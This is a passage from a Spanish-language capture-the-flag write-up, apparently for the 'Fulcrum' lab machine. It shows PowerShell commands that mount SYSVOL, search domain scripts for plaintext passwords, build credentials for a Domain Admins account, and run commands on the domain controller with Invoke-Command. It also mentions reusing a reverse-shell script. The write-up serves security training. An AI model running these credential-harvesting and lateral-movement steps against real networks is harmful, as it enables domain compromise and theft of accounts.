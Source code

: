 Para listar más comodamente los recursos, podemos crear una nueva unidad logica:
```powershell
PS> net use x: \\dc.fulcrum.local\SYSVOL /user:FULCRUM\BTables <password>
```

De ahora en adelante, todo el contenido de **SYSVOL** proviniento de **IPC$** estara en la raiz del sistema en la unidad **X:**
```powershell
PS> X:
PS> dir
```

---------
#### Information Leakage - Domain Admin Password  
Si leeamos algunos de los archivos de la carpeta **Scripts** encontramos credenciales de algunos usuarios, pero son bastantes. Podemos hacer uso de algunos filtros para dar con usuarios especificos y corroborar si existen y estan aqui sus contraseñas:
```powershell
PS> Select-String -Path "X:\fulcrum.local\script\*.ps1" -Pattern 923a
PS> type file.ps1
```

Encontramos la contraseña de un usuario, el cual, si hacemos un `net user 932a` podemos visualizar que es parte del grupo **Domain Admins**:
```powershell 
PS> net user 932a
```

---------------
#### PIVOTING 3 - Using Invoke-Command to execute commands on the Domain Controller (DC)
Pues bien, podemos hacer lo mismo que hicimos antes con el usuario **BTable**, crear una **password** usando **SecureString**, posteriormente una credencial con la cual ejecutaremos comandos en el **Domain Controller**:
```powershell
PS> $password = ConvertTo-SecureString '<password>' -AsPlainText -Force
PS> $cred = New-Object System.Management.Automation.PSCredential('FULCRUM\923a', $password)
```

Si lanzamos ahora un `whoami` como este usuario en el **DomainController** vemos que estamos como el usuario **923a** el cual, esta en el grupo **Domain admins** asi que podemos entrar a los recursos privados de **Administrator**:
```powershell
PS> Invoke-Command -ComputerName dc.fulcrum.local -Credential $cred -ScriptBlock { whoami }
```

Con esto, podemos ejecutar el mismo **Invoke-PowerShellTcpOneLine.ps1** que ejecutamos antes para ganar una shell.
